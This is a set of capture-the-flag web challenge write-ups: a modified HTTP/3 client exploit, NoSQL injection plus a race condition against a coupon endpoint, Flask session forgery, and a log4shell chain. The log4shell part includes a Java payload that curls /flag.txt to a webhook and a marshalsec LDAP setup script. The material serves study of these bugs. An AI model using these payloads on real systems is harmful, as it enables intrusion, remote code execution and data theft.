            (b"user-agent", USER_AGENT.encode()),
        ]
        + [(k.encode(), v.encode()) for (k, v) in request.headers.items()],
        end_stream=not request.content,
    )
    if request.content:
        self._http.send_data(
            stream_id=stream_id, data=request.content, end_stream=True
        )

    waiter = self._loop.create_future()
    self._request_events[stream_id] = deque()
    self._request_waiter[stream_id] = waiter
    self.transmit()

    return await asyncio.shield(waiter)
```

### Final Exploit
```py

import argparse
import asyncio
import logging
import os
import pickle
import ssl
import time
from collections import deque
from typing import BinaryIO, Callable, Deque, Dict, List, Optional, Union, cast
from urllib.parse import urlparse

import aioquic
import wsproto
import wsproto.events
from aioquic.asyncio.client import connect
from aioquic.asyncio.protocol import QuicConnectionProtocol
from aioquic.h0.connection import H0_ALPN, H0Connection
from aioquic.h3.connection import H3_ALPN, ErrorCode, H3Connection
from aioquic.h3.events import (
    DataReceived,
    H3Event,
    HeadersReceived,
    PushPromiseReceived,
)
from aioquic.quic.configuration import QuicConfiguration
from aioquic.quic.events import QuicEvent
from aioquic.quic.logger import QuicFileLogger
from aioquic.quic.packet import QuicProtocolVersion
from aioquic.tls import CipherSuite, SessionTicket

try:
    import uvloop
except ImportError:
    uvloop = None

logger = logging.getLogger("client")

HttpConnection = Union[H0Connection, H3Connection]

USER_AGENT = "aioquic/" + aioquic.__version__


class URL:
    def __init__(self, url: str) -> None:
        parsed = urlparse(url)

        self.authority = parsed.netloc
        self.full_path = parsed.path or "/"
        if parsed.query:
            self.full_path += "?" + parsed.query
        self.scheme = parsed.scheme


class HttpRequest:
    def __init__(
        self,
        method: str,
        url: URL,
        content: bytes = b"",
        headers: Optional[Dict] = None,
    ) -> None:
        if headers is None:
            headers = {}

        self.content = content
        self.headers = headers
        self.method = method
        self.url = url


class WebSocket:
    def __init__(
        self, http: HttpConnection, stream_id: int, transmit: Callable[[], None]
    ) -> None:
        self.http = http
        self.queue: asyncio.Queue[str] = asyncio.Queue()
        self.stream_id = stream_id
        self.subprotocol: Optional[str] = None
        self.transmit = transmit
        self.websocket = wsproto.Connection(wsproto.ConnectionType.CLIENT)

    async def close(self, code: int = 1000, reason: str = "") -> None:
        """
        Perform the closing handshake.
        """
        data = self.websocket.send(
            wsproto.events.CloseConnection(code=code, reason=reason)
        )
        self.http.send_data(stream_id=self.stream_id, data=data, end_stream=True)
        self.transmit()

    async def recv(self) -> str:
        """
        Receive the next message.
        """
        return await self.queue.get()

    async def send(self, message: str) -> None:
        """
        Send a message.
        """
        assert isinstance(message, str)

        data = self.websocket.send(wsproto.events.TextMessage(data=message))
        self.http.send_data(stream_id=self.stream_id, data=data, end_stream=False)
        self.transmit()

    def http_event_received(self, event: H3Event) -> None:
        if isinstance(event, HeadersReceived):
            for header, value in event.headers:
                if header == b"sec-websocket-protocol":
                    self.subprotocol = value.decode()
        elif isinstance(event, DataReceived):
            self.websocket.receive_data(event.data)

        for ws_event in self.websocket.events():
            self.websocket_event_received(ws_event)

    def websocket_event_received(self, event: wsproto.events.Event) -> None:
        if isinstance(event, wsproto.events.TextMessage):
            self.queue.put_nowait(event.data)


class HttpClient(QuicConnectionProtocol):
    def __init__(self, *args, **kwargs) -> None:
        super().__init__(*args, **kwargs)

        self.pushes: Dict[int, Deque[H3Event]] = {}
        self._http: Optional[HttpConnection] = None
        self._request_events: Dict[int, Deque[H3Event]] = {}
        self._request_waiter: Dict[int, asyncio.Future[Deque[H3Event]]] = {}
        self._websockets: Dict[int, WebSocket] = {}

        if self._quic.configuration.alpn_protocols[0].startswith("hq-"):
            self._http = H0Connection(self._quic)
        else:
            self._http = H3Connection(self._quic)

    async def get(self, url: str, headers: Optional[Dict] = None) -> Deque[H3Event]:
        """
        Perform a GET request.
        """
        return await self._request(
            HttpRequest(method="GET", url=URL(url), headers=headers)
        )

    async def post(
        self, url: str, data: bytes, headers: Optional[Dict] = None
    ) -> Deque[H3Event]:
        """
        Perform a POST request.
        """
        return await self._request(
            HttpRequest(method="POST", url=URL(url), content=data, headers=headers)
        )

    async def websocket(
        self, url: str, subprotocols: Optional[List[str]] = None
    ) -> WebSocket:
        """
        Open a WebSocket.
        """
        request = HttpRequest(method="CONNECT", url=URL(url))
        stream_id = self._quic.get_next_available_stream_id()
        websocket = WebSocket(
            http=self._http, stream_id=stream_id, transmit=self.transmit
        )

        self._websockets[stream_id] = websocket

        headers = [
            (b":method", b"CONNECT"),
            (b":scheme", b"https"),
            (b":authority", request.url.authority.encode()),
            (b":path", request.url.full_path.encode()),
            (b":protocol", b"websocket"),
            (b"user-agent", USER_AGENT.encode()),
            (b"sec-websocket-version", b"13"),
        ]
        if subprotocols:
            headers.append(
                (b"sec-websocket-protocol", ", ".join(subprotocols).encode())
            )
        self._http.send_headers(stream_id=stream_id, headers=headers)

        self.transmit()

        return websocket

    def http_event_received(self, event: H3Event) -> None:
        if isinstance(event, (HeadersReceived, DataReceived)):
            stream_id = event.stream_id
            if stream_id in self._request_events:
                # http
                self._request_events[event.stream_id].append(event)
                if event.stream_ended:
                    request_waiter = self._request_waiter.pop(stream_id)
                    request_waiter.set_result(self._request_events.pop(stream_id))

            elif stream_id in self._websockets:
                # websocket
                websocket = self._websockets[stream_id]
                websocket.http_event_received(event)

            elif event.push_id in self.pushes:
                # push
                self.pushes[event.push_id].append(event)

        elif isinstance(event, PushPromiseReceived):
            self.pushes[event.push_id] = deque()
            self.pushes[event.push_id].append(event)

    def quic_event_received(self, event: QuicEvent) -> None:
        #  pass event to the HTTP layer
        if self._http is not None:
            for http_event in self._http.handle_event(event):
                self.http_event_received(http_event)

    async def _request(self, request: HttpRequest) -> Deque[H3Event]:
        stream_id = self._quic.get_next_available_stream_id()
        print("SENDING REQUEST", request.url.full_path.encode())
        self._http.send_headers(
            stream_id=stream_id,
            headers=[
                (b":method", request.method.encode()),
                (b":scheme", request.url.scheme.encode()),
                (b":authority", request.url.authority.encode()),
                (b":path", b"flag"),
                (b"user-agent", USER_AGENT.encode()),
            ]
            + [(k.encode(), v.encode()) for (k, v) in request.headers.items()],
            end_stream=not request.content,
        )
        if request.content:
            self._http.send_data(
                stream_id=stream_id, data=request.content, end_stream=True
            )

        waiter = self._loop.create_future()
        self._request_events[stream_id] = deque()
        self._request_waiter[stream_id] = waiter
        self.transmit()

        return await asyncio.shield(waiter)


async def perform_http_request(
    client: HttpClient,
    url: str,
    data: Optional[str],
    include: bool,
    output_dir: Optional[str],
) -> None:
    # perform request
    start = time.time()
    if data is not None:
        data_bytes = data.encode()
        http_events = await client.post(
            url,
            data=data_bytes,
            headers={
                "content-length": str(len(data_bytes)),
                "content-type": "application/x-www-form-urlencoded",
            },
        )
        method = "POST"
    else:
        http_events = await client.get(url)
        method = "GET"
    elapsed = time.time() - start

    # print speed
    octets = 0
    for http_event in http_events:
        if isinstance(http_event, DataReceived):
            octets += len(http_event.data)
    logger.info(
        "Response received for %s %s : %d bytes in %.1f s (%.3f Mbps)"
        % (method, urlparse(url).path, octets, elapsed, octets * 8 / elapsed / 1000000)
    )

    import io
    f = io.BytesIO()

    write_response(
        http_events=http_events, include=include, output_file=f
    )

    f.seek(0)
    print(bytes(f.read()).decode())


def process_http_pushes(
    client: HttpClient,
    include: bool,
    output_dir: Optional[str],
) -> None:
    for _, http_events in client.pushes.items():
        method = ""
        octets = 0
        path = ""
        for http_event in http_events:
            if isinstance(http_event, DataReceived):
                octets += len(http_event.data)
            elif isinstance(http_event, PushPromiseReceived):
                for header, value in http_event.headers:
                    if header == b":method":
                        method = value.decode()
                    elif header == b":path":
                        path = value.decode()
        logger.info("Push received for %s %s : %s bytes", method, path, octets)

        # output response
        if output_dir is not None:
            output_path = os.path.join(
                output_dir, os.path.basename(path) or "index.html"
            )
            with open(output_path, "wb") as output_file:
                write_response(
                    http_events=http_events, include=include, output_file=output_file
                )


def write_response(
    http_events: Deque[H3Event], output_file: BinaryIO, include: bool
) -> None:
    for http_event in http_events:
        if isinstance(http_event, HeadersReceived) and include:
            headers = b""
            for k, v in http_event.headers:
                headers += k + b": " + v + b"\r\n"
            if headers:
                output_file.write(headers + b"\r\n")
        elif isinstance(http_event, DataReceived):
            output_file.write(http_event.data)


def save_session_ticket(ticket: SessionTicket) -> None:
    """
    Callback which is invoked by the TLS engine when a new session ticket
    is received.
    """
    logger.info("New session ticket received")
    if args.session_ticket:
        with open(args.session_ticket, "wb") as fp:
            pickle.dump(ticket, fp)


async def main(
    configuration: QuicConfiguration,
    urls: List[str],
    data: Optional[str],
    include: bool,
    output_dir: Optional[str],
    local_port: int,
    zero_rtt: bool,
) -> None:
    # parse URL
    parsed = urlparse(urls[0])
    assert parsed.scheme in (
        "https",
        "wss",
    ), "Only https:// or wss:// URLs are supported."
    host = parsed.hostname
    if parsed.port is not None:
        port = parsed.port
    else:
        port = 443

    # check validity of 2nd urls and later.
    for i in range(1, len(urls)):
        _p = urlparse(urls[i])

        # fill in if empty
        _scheme = _p.scheme or parsed.scheme
        _host = _p.hostname or host
        _port = _p.port or port

        assert _scheme == parsed.scheme, "URL scheme doesn't match"
        assert _host == host, "URL hostname doesn't match"
        assert _port == port, "URL port doesn't match"

        # reconstruct url with new hostname and port
        _p = _p._replace(scheme=_scheme)
        _p = _p._replace(netloc="{}:{}".format(_host, _port))
        _p = urlparse(_p.geturl())
        urls[i] = _p.geturl()

    async with connect(
        host,
        port,
        configuration=configuration,
        create_protocol=HttpClient,
        session_ticket_handler=save_session_ticket,
        local_port=local_port,
        wait_connected=not zero_rtt,
    ) as client:
        client = cast(HttpClient, client)

        if parsed.scheme == "wss":
            ws = await client.websocket(urls[0], subprotocols=["chat", "superchat"])

            # send some messages and receive reply
            for i in range(2):
                message = "Hello {}, WebSocket!".format(i)
                print("> " + message)
                await ws.send(message)

                message = await ws.recv()
                print("< " + message)

            await ws.close()
        else:
            # perform request
            coros = [
                perform_http_request(
                    client=client,
                    url=url,
                    data=data,
                    include=include,
                    output_dir=output_dir,
                )
                for url in urls
            ]
            await asyncio.gather(*coros)

            # process http pushes
            process_http_pushes(client=client, include=include, output_dir=output_dir)
        client.close(error_code=ErrorCode.H3_NO_ERROR)


if __name__ == "__main__":
    defaults = QuicConfiguration(is_client=True)

    parser = argparse.ArgumentParser(description="HTTP/3 client")
    parser.add_argument(
        "url", type=str, nargs="+", help="the URL to query (must be HTTPS)"
    )
    parser.add_argument(
        "--ca-certs", type=str, help="load CA certificates from the specified file"
    )
    parser.add_argument(
        "--certificate",
        type=str,
        help="load the TLS certificate from the specified file",
    )
    parser.add_argument(
        "--cipher-suites",
        type=str,
        help=(
            "only advertise the given cipher suites, e.g. `AES_256_GCM_SHA384,"
            "CHACHA20_POLY1305_SHA256`"
        ),
    )
    parser.add_argument(
        "--congestion-control-algorithm",
        type=str,
        default="reno",
        help="use the specified congestion control algorithm",
    )
    parser.add_argument(
        "-d", "--data", type=str, help="send the specified data in a POST request"
    )
    parser.add_argument(
        "-i",
        "--include",
        action="store_true",
        help="include the HTTP response headers in the output",
    )
    parser.add_argument(
        "--insecure",
        action="store_true",
        help="do not validate server certificate",
    )
    parser.add_argument(
        "--legacy-http",
        action="store_true",
        help="use HTTP/0.9",
    )
    parser.add_argument(
        "--max-data",
        type=int,
        help="connection-wide flow control limit (default: %d)" % defaults.max_data,
    )
    parser.add_argument(
        "--max-stream-data",
        type=int,
        help="per-stream flow control limit (default: %d)" % defaults.max_stream_data,
    )
    parser.add_argument(
        "--negotiate-v2",
        action="store_true",
        help="start with QUIC v1 and try to negotiate QUIC v2",
    )

    parser.add_argument(
        "--output-dir",
        type=str,
        help="write downloaded files to this directory",
    )
    parser.add_argument(
        "--private-key",
        type=str,
        help="load the TLS private key from the specified file",
    )
    parser.add_argument(
        "-q",
        "--quic-log",
        type=str,
        help="log QUIC events to QLOG files in the specified directory",
    )
    parser.add_argument(
        "-l",
        "--secrets-log",
        type=str,
        help="log secrets to a file, for use with Wireshark",
    )
    parser.add_argument(
        "-s",
        "--session-ticket",
        type=str,
        help="read and write session ticket from the specified file",
    )
    parser.add_argument(
        "-v", "--verbose", action="store_true", help="increase logging verbosity"
    )
    parser.add_argument(
        "--local-port",
        type=int,
        default=0,
        help="local port to bind for connections",
    )
    parser.add_argument(
        "--max-datagram-size",
        type=int,
        default=defaults.max_datagram_size,
        help="maximum datagram size to send, excluding UDP or IP overhead",
    )
    parser.add_argument(
        "--zero-rtt", action="store_true", help="try to send requests using 0-RTT"
    )

    args = parser.parse_args()

    logging.basicConfig(
        format="%(asctime)s %(levelname)s %(name)s %(message)s",
        level=logging.DEBUG if args.verbose else logging.INFO,
    )

    if args.output_dir is not None and not os.path.isdir(args.output_dir):
        raise Exception("%s is not a directory" % args.output_dir)

    # prepare configuration
    configuration = QuicConfiguration(
        is_client=True,
        alpn_protocols=H0_ALPN if args.legacy_http else H3_ALPN,
        congestion_control_algorithm=args.congestion_control_algorithm,
        max_datagram_size=args.max_datagram_size,
    )
    if args.ca_certs:
        configuration.load_verify_locations(args.ca_certs)
    if args.cipher_suites:
        configuration.cipher_suites = [
            CipherSuite[s] for s in args.cipher_suites.split(",")
        ]
    if args.insecure:
        configuration.verify_mode = ssl.CERT_NONE
    if args.max_data:
        configuration.max_data = args.max_data
    if args.max_stream_data:
        configuration.max_stream_data = args.max_stream_data
    if args.negotiate_v2:
        configuration.original_version = QuicProtocolVersion.VERSION_1
        configuration.supported_versions = [
            QuicProtocolVersion.VERSION_2,
            QuicProtocolVersion.VERSION_1,
        ]
    if args.quic_log:
        configuration.quic_logger = QuicFileLogger(args.quic_log)
    if args.secrets_log:
        configuration.secrets_log_file = open(args.secrets_log, "a")
    if args.session_ticket:
        try:
            with open(args.session_ticket, "rb") as fp:
                configuration.session_ticket = pickle.load(fp)
        except FileNotFoundError:
            pass

    # load SSL certificate and key
    if args.certificate is not None:
        configuration.load_cert_chain(args.certificate, args.private_key)

    if uvloop is not None:
        uvloop.install()
    asyncio.run(
        main(
            configuration=configuration,
            urls=args.url,
            data=args.data,
            include=args.include,
            output_dir=args.output_dir,
            local_port=args.local_port,
            zero_rtt=args.zero_rtt,
        )
    )
```


## \[WEB\] Focus. Speed. I am speed.


> 20<sup>th</sup> Jan 2025  
> Writeup author(s): simonedimaria  
> Solves: 189

---
### Description
> Welcome to Radiator Springs' finest store, where every car enthusiast's dream comes true! But remember, in the world of racing, precision matters—so tread carefully as you navigate this high-octane experience. Ka-chow!
> 
> Website: [http://speed.challs.srdnlen.it:8082](http://speed.challs.srdnlen.it:8082)
> 
> Author: [@Octaviusss](https://github.com/Octaviusss)

### Analysis
The challenge presents itself as a web shopping store. 


As the description hints, we probably have to deal with race conditions.
The application is a NodeJS based application with MongoDB support to store user informations like login details, balance, purchased products and the last coupon redemption timestamp.  
The application does in fact create a single coupon code worth 20 balance, but we don't have access to it. The application has quite a lot of code, but it's mainly authentication logic, business logic, application and database setup. We can skip that at first, to focus on where the Coupon logic resides, i.e. in the `/reedem` route.

**routes.js**
```js
[...]
router.get('/redeem', isAuth, async (req, res) => {
    try {
        const user = await User.findById(req.user.userId);

        if (!user) {
            return res.render('error', { Authenticated: true, message: 'User not found' });
        }

        // Now handle the DiscountCode (Gift Card)
        let { discountCode } = req.query;
        
        if (!discountCode) {
            return res.render('error', { Authenticated: true, message: 'Discount code is required!' });
        }

        const discount = await DiscountCodes.findOne({discountCode})

        if (!discount) {
            return res.render('error', { Authenticated: true, message: 'Invalid discount code!' });
        }

        // Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }

        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();

        console.log(`Gift card redeemed by ${user.username} with code ${discountCode} and value ${discount.value}`);

        return res.json({
            success: true,
            message: 'Gift card redeemed successfully! New Balance: ' + user.Balance // Send success message
        });

    } catch (error) {
        console.error('Error during gift card redemption:', error);
        return res.render('error', { Authenticated: true, message: 'Error redeeming gift card'});
    }
});
[...]
```

In the first place the following query that retrieves Coupons from the db is vulnerable to NoSQL injection:

```js
const discount = await DiscountCodes.findOne({discountCode})
```

That happens because many NodeJS database drivers take JSON-like objects as inputs to make database queries. However in that code snippet the  `discountCode` object used to create the query is directly taken from:

```js
let { discountCode } = req.query;
```
 
without any sanitization. In that case it means that we have almost full control on the query being created, as the following request:

```
/redeem?discountCode[$ne]=0
```

would evaluate in the following query:

```js
await DiscountCodes.findOne({ discountCode: { $ne: '0' } });
```

This query does not look for a specific discount code anymore; instead, it returns any discount code whose value is not `0`, meaning it will return the generated coupon without us needing to know the coupon code.

Later on the code, the application checks that the user didn't already redeemed a coupon in the last 24h:

```js
[...]
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }
[...]
``` 

Meaning we cannot reuse the same coupon in the challenge context even though the extracted coupon doesn't get invalidated. No more than 1 coupons gets generated so we have to find a way to reuse that coupon multiple times.

```js
[...]
 // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();
[...]
```

Here, the application set the `user.lastVoucherRedemption` to the current timestamp after retrieving the user balance and summing it up with the coupon value.
However, a clear pattern of Race Condition window is just under our eyes.  
*"Oh yea, the sleep before updating the redemption timestamp"* one might think... But yeah, no.  
The Promise isn't awaited and the code is inside asynchronous context meaning that `user.lastVoucherRedemption = today;` will get executed without waiting the Promise to be resolved.


Luckily for us, the race condition was still possible even though the window was shorter. That's because the last db query before the user state update gets awaited and it's a long blocking operation, which is a common database-related race condition pattern often seen in web applications.

```js
const { Balance } = await User.findById(req.user.userId).select('Balance');
```

### Exploitation
Getting everything together, this is the final exploit script:

```python
import requests
from requests_racer import SynchronizedAdapter, SynchronizedSession
import threading
import random
import re

TARGET_BASE_URL = "http://speed.challs.srdnlen.it:8082"
USERNAME = "fentmaster" + "".join(random.choices("0123456789", k=5))
PASSWORD = "fentmaster" + "".join(random.choices("0123456789", k=5)) 
NUM_THREADS = 10

s = requests.Session()
ss = SynchronizedSession()

COOKIES = None

def register(username, password):
    data = {
        'username': username,
        'password': password
    }
    print("[*] Attempting registration with username:", username, "password:", password)
    resp = s.post(f"{TARGET_BASE_URL}/register-user", json=data)
    
    if resp.status_code == 200 and not "Error" in resp.text:
        print("[+] Registration successful.")
    else:
        print("[-] Registration might have failed. Response code:", resp.status_code, "Response text:", resp.text)
        exit()

def login(username, password):
    data = {
        'username': username,
        'password': password
    }
    print("[*] Attempting login... with username:", username, "password:", password)
    resp = s.post(f"{TARGET_BASE_URL}/user-login", json=data)
        
    if resp.status_code == 200 and "Logged" in resp.text:
        global COOKIES; COOKIES = resp.cookies
        print("[+] Login successful.")
    else:
        print("[-] Login might have failed. Response code:", resp.status_code, "Response text:", resp.text)
        exit()

def get_balance():
    r = s.get(f"{TARGET_BASE_URL}/", cookies=COOKIES)
    balance = re.search(r"Balance: (\d+)", r.text).group(1)
    return int(balance)

def redeem_voucher_thread():
    try:
        r = ss.get(f"{TARGET_BASE_URL}/redeem?discountCode[$ne]=0", cookies=COOKIES, timeout=5)
        #print(f"[Thread] Response: {r.status_code} {r.text}")
    except Exception as e:
        print(f"[Thread] Error: {e}")

def main():
    register(USERNAME, PASSWORD)
    login(USERNAME, PASSWORD)
    
    print(f"[*] Initial balance: {get_balance()}")
    print(f"[*] Launching {NUM_THREADS} parallel voucher redemption threads.")
    threads = []
    
    for _ in range(NUM_THREADS):
        t = threading.Thread(target=redeem_voucher_thread)
        threads.append(t)
    
    for t in threads:
        t.start()
    
    for t in threads:
        t.join()
    
    ss.finish_all()
    print("[*] All threads completed. Check server responses for potential injection success or errors.")
    print(f"[*] After exploit balance: {get_balance()}")

if __name__ == "__main__":
    main()
```

execute it and get the flag.


---
Flag: `srdnlen{6peed_1s_My_0nly_Competition}`


## \[WEB\] Ben 10

This is a server side challenge. We can see in `app.py` that the secret key is hardcoded. Usually this secret will not be the same in the remote server but we can give it a try.


```py
app = Flask(__name__)
app.secret_key = 'your_secret_key'
```

So let's try to sign an arbitrary session cookie with `Flask-Unsign` using the following command:
```sh
flask-unsign --sign --secret "your_secret_key" -c "{'username': 'admin'}"
```

Now, if we try to view `/image/ben10`, we should see the flag.


## \[WEB\] Sparkling Sky

> 20<sup>th</sup> Jan 2025  
> Writeup author(s): simonedimaria  
> Solves: 49

---
### Description
> I am developing a game with websockets in python. I left my pc to a java fan, I think he really messed up.
> 
> _It is forbidden to perform or attempt to perform any action against the infrastructure or the challenge itself._
> - username: user1337
> - password: user1337
> - website: [http://sparklingsky.challs.srdnlen.it:8081](http://sparklingsky.challs.srdnlen.it:8081)
> author: @sanmatte

### Analysis
The challenge presents itself as a web game about moving birds around with basic login/logout routes and a listening websocket as most web games do. 



As the description says, the app has both Python and Java dependencies:

**Dockerfile**
```dockerfile
RUN cd $(python -c "import os, pyspark; print(os.path.dirname(__import__('pyspark').__file__))")/jars && \

rm log4j* && \

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar && \

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar && \

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-slf4j-impl/2.14.1/log4j-slf4j-impl-2.14.1.jar && \

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-1.2-api/2.14.1/log4j-1.2-api-2.14.1.jar
```

This is quite eye catching because it's installing an old version of the **log4j** library, which is widely known to be vulnerable to the infamous **log4shell** vulnerability that allows attackers to inject specially crafted strings into log messages and when those strings are processed, they can invoke JNDI lookups (LDAP, etc.) that lead to RCE.
Moreover, looking into where **log4j** gets used in the application, we notice that some awful configurations are being added inline: 

```python
log4j_config_path = "/app/log4j.properties"

spark = SparkSession.builder \
    .appName("Anticheat") \
    .config("spark.driver.extraJavaOptions",
            "-Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Dlog4j.configuration=file:" + log4j_config_path) \
    .config("spark.executor.extraJavaOptions",
            "-Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Dlog4j.configuration=file:" + log4j_config_path) \
    .getOrCreate()

logger = spark._jvm.org.apache.log4j.LogManager.getLogger("Anticheat")
```

The property `com.sun.jndi.ldap.object.trustURLCodebase=true` is enabling JNDI lookups on trusting remote LDAP codebases, allowing us to potentially make the webapp do JNDI lookups to our malicious LDAP server.

At this point the path to exploitation is quite clear, we just need to know how we can inject our payload on the form of `${jndi:ldap://<malicious-ldap-server>/...}` in the logs.
The just seen logging configuration is situated in the `anticheat.py` file, that provides a cheap cheating protections based on delta movements of players.

```python
def log_action(user_id, action):
    logger.info(f"User: {user_id} - {action}")


user_states = {}

# Anti-cheat thresholds
MAX_SPEED = 1000  # Max units per second

def analyze_movement(user_id, new_x, new_y, new_angle):

    global user_states

    # Initialize user state if not present
    if user_id not in user_states:
        user_states[user_id] = {
            'last_x': new_x,
            'last_y': new_y,
            'last_time': time.time(),
            'violations': 0,
        }

    user_state = user_states[user_id]
    last_x = user_state['last_x']
    last_y = user_state['last_y']
    last_time = user_state['last_time']

    # Calculate distance and time elapsed
    distance = math.sqrt((new_x - last_x)**2 + (new_y - last_y)**2)
    time_elapsed = time.time() - last_time
    speed = distance / time_elapsed if time_elapsed > 0 else 0

    # Check for speed violations
    if speed > MAX_SPEED:
        return True

    # Update the user state
    user_states[user_id].update({
        'last_x': new_x,
        'last_y': new_y,
        'last_time': time.time(),
    })

    return False
```

The `log_action` logging function defined here is used in both `connect` and `move_bird` socket events in `game/socket.py`:

```python
def init_socket_events(socketio, players):
    @socketio.on('connect')
    @login_required
    def handle_connect():
        user_id = int(current_user.get_id())
        log_action(user_id, "is connecting")

        if user_id in players.keys():
            # Player already exists, send their current position
            emit('connected', {'user_id': user_id, 'x': players[user_id]['x'], 'y': players[user_id]['y'], 'angle': players[user_id]['angle']})
        else:
            # TODO: Check if the lobby is full and add the player to the queue
            log_action(user_id, f"is spectating")
        emit('update_bird_positions', players, broadcast=True)

    @socketio.on('move_bird')
    @login_required
    def handle_bird_movement(data):
        user_id = data.get('user_id')
        if user_id in players:
            del data['user_id']
            if players[user_id] != data:
                with lock:
                    players[user_id] = {
                        'x': data['x'],
                        'y': data['y'],
                        'color': 'black',
                        'angle': data.get('angle', 0)
                    }
                    if analyze_movement(user_id, data['x'], data['y'], data.get('angle', 0)):
                        log_action(user_id, f"was cheating with final position ({data['x']}, {data['y']}) and final angle: {data['angle']}")
                        # del players[user_id] # Remove the player from the game - we are in beta so idc
                    emit('update_bird_positions', players, broadcast=True)

[...]
```

However, to craft the exploit we need to be able to inject an arbitrary string in the logs, which doesn't seems to happen because in the `connect` event `log_action` is being used with `user_id` as the only parameter, and we cannot manipulate it. In the `move_bird` event instead, if the `analyze_movement` anticheat function returns true, then the following log string is processed:

```python
log_action(user_id, f"was cheating with final position ({data['x']}, {data['y']}) and final angle: {data['angle']}")
``` 

Here, our movement inputs gets reflected in the logs, but it don't seems feasible to pass a string as movement data that expects numbers.
Fortunately for us, the `new_angle` parameter in `analyze_movement(user_id, new_x, new_y, new_angle)` function is not being used at all, meaning that we can inject arbitrary input here without triggering errors in the applications, and still getting our input reflected in the vulnerable logging configuration.

We just need to figure out how to trigger the anticheat to complete the exploit. 
As previously mentioned, the function that analyzes the movements of a player, calculates the delta movement and delta time of two sequential `move_bird` commands, and calculates that the average speed does not exceed the `MAX_SPEED` threshold. This means that to trigger it we will simply need to move our bird in two very distant coordinate points in a very short time, that results in a very high delta velocity.  
When I went to write the script to test this idea, I realized one last hurdle:
When we login as `user1337` with the credentials provided by the challenge, the application will register us as `user_id = 11`, since the challenge simulates 10 other players playing. The problem is that the application allows movements only to players who were logged in at the time the websocket state was initialized, which is why our `user_id = 11` will not pass the `if user_id in players` check at L27 since in the `players` variable there are only the 10 initial players.  
However this is trivial to bypass, since the `user_id` used in the socket listener for `move_bird` is actually taken from the data being passed into the socket, rather than from the server side user session, which is why it is easy to log in as `user_id = 11` and then impersonate `user_id = 10`.
### Exploitation
Most of the time spent solving this challenge was not about vulnerability discovery, but quite in the setup for the exploit. In fact, as often happens for this type of Java exploits, it's necessary that our malicious Java code is written and compiled in an environment as similar as possible to the target one.  
For this reason my `Exploit.java` was compiled on the challenge docker container and then exported and exposed on my VPS. The compiled `Exploit.java` into `Exploit.class` is then exposed by a simple http server on port 8000 of my VPS. This is the webserver that is then pointed by the LDAP service hosted on the VPS using [marshalsec/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java). Finally the payload to use as `new_angle` parameter will be the following:

```
${jndi:ldap://<VPS_IP>:<LDAP_PORT>/a}
```

This is the Java payload i compiled and used for the RCE and exfiltrate the flag to my webhook:
**Exploit.java**
```java
public class Exploit {
    static {
        try {
            String[] cmd = {
                "curl",
                "-d",
                "@/flag.txt",
                "https://webhook.site/21b7bb94-c1a3-49a1-b99c-ba51e8adff08"
            };
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

This is the script i used to setup everything on my VPS:
**setup_exploit.sh**
```sh
#!/bin/sh

VPS_IP=188.245.77.109
WEBSERVER_PORT=8000
LDAP_PORT=1389

# start LDAP ref server
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://${VPS_IP}:${WEBSERVER_PORT}/#Exploit" 2>&1 | sed 's/^/[LDAPRefServer] /' &

# expose via http the compiled java payload, the LDAP service will point to this resource
python3 -u -m http.server ${WEBSERVER_PORT} 2>&1 | sed 's/^/[HTTPServer] /' &

sleep 2

echo "\n[*] send the following payload to the application:"
echo "\${jndi:ldap://${VPS_IP}:${LDAP_PORT}/a}"
echo ""

wait
```


and finally this is the python script to start it all
```python
#!/usr/bin/env python3

import time
import requests
import socketio

SOCKET_URL = CHALL_URL =  "http://sparklingsky.challs.srdnlen.it:8081" #"http://0.0.0.0:5000"
VPS_IP = "188.245.77.109"
LDAP_PORT = 1389
EXPLOIT_SERVER = f"${{jndi:ldap://{VPS_IP}:{LDAP_PORT}/a}}"

PASSWORD = USERNAME = "user1337"

# starting position
START_X = 0
START_Y = 0

# extreme final position to trigger anticheat (huge jump)
FINAL_X = 100000
FINAL_Y = 100000

def login(session: requests.Session) -> bool:
    print("[*] Attempting login...")
    data = {
        "username": USERNAME,
        "password": PASSWORD,
    }
    response = session.post(f"{CHALL_URL}/login", data=data)
    print("[*] Login response:", response.status_code)

    if response.status_code == 200:
        print("[+] Login successful!")
        return True
    else:
        print("[-] Login failed.")
        return False

def main():
    session = requests.Session()
    
    if not login(session):
        return

    # retrieve the session cookie(s) needed for socket.io authentication.
    cookies = session.cookies
    print("[*] Session cookies: ", cookies)
    
    # init a Socket.IO client, passing the cookies to the transport layer.
    sio = socketio.Client()
    
